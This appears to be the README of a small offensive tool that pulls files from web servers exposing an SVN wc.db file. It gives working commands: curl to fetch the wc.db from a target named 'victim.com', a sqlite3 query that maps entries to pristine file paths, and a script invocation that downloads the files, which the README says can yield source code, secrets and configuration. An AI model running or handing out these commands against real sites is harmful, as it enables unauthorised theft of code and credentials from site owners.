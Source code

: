 # svn-db_downloader
Little tool to exploit exposed SVN wc.db files

The tool will download all files that are also visible in the wc.db. The may help you to get access to source code, secrets, configuration files etc.

## Getting the required data
Download the exposed wc.db file and run the following command on it:

```bash
curl -o wc.db https://victim.com/wc.db
sqlite3 wc.db 'select local_relpath, ".svn/pristine/" || substr(checksum,7,2) || "/" || substr(checksum,7) || ".svn-base" as alpha from NODES;' > svn-input.txt
```

Next run the script using the resulting svn-input.txt file.

```bash
./svn-db_parser.sh --baseurl "https://victim.com" --input svn-input.txt --output report
```


